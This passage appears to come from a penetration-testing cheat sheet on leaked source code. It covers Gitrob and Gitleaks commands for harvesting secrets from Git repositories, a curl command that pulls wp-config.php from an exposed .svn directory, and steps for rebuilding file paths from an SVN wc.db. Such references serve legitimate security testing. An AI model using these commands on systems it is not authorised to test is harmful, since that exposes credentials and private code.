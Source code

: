 > Gitrob is a tool to help find potentially sensitive files pushed to public repositories on Github. Gitrob will clone repositories belonging to a user or organization down to a configurable depth and iterate through the commit history and flag files that match signatures for potentially sensitive files.

```powershell
go get github.com/michenriksen/gitrob # https://github.com/michenriksen/gitrob
export GITROB_ACCESS_TOKEN=deadbeefdeadbeefdeadbeefdeadbeefdeadbeef
gitrob [options] target [target2] ... [targetN]
```

### Harvesting secrets - Gitleaks

> Gitleaks provides a way for you to find unencrypted secrets and other unwanted data types in git source code repositories.

```powershell
# Run gitleaks against a public repository
docker run --rm --name=gitleaks zricethezav/gitleaks -v -r  https://github.com/zricethezav/gitleaks.git

# Run gitleaks against a local repository already cloned into /tmp/
docker run --rm --name=gitleaks -v /tmp/:/code/  zricethezav/gitleaks -v --repo-path=/code/gitleaks

# Run gitleaks against a specific Github Pull request
docker run --rm --name=gitleaks -e GITHUB_TOKEN={your token} zricethezav/gitleaks --github-pr=https://github.com/owner/repo/pull/9000

or

go get -u github.com/zricethezav/gitleaks
```

## SVN - Source code management

### SVN example (Wordpress)

```powershell
curl http://blog.domain.com/.svn/text-base/wp-config.php.svn-base
```

1. Download the svn database from <http://server/path_to_vulnerable_site/.svn/wc.db>

    ```powershell
    INSERT INTO "NODES" VALUES(1,'trunk/test.txt',0,'trunk',1,'trunk/test.txt',2,'normal',NULL,NULL,'file',X'2829',NULL,'$sha1$945a60e68acc693fcb74abadb588aac1a9135f62',NULL,2,1456056344886288,'bl4de',38,1456056261000000,NULL,NULL);
    ```

2. Download interesting files
    * remove \$sha1\$ prefix
    * add .svn-base postfix
    * use first two signs from hash as folder name inside pristine/ directory (94 in this case)
    * create complete path, which will be: `http://server/path_to_vulnerable_site/.svn/pristine/94/945a60e68acc693fcb74abadb588aac1a9135f62.svn-base`
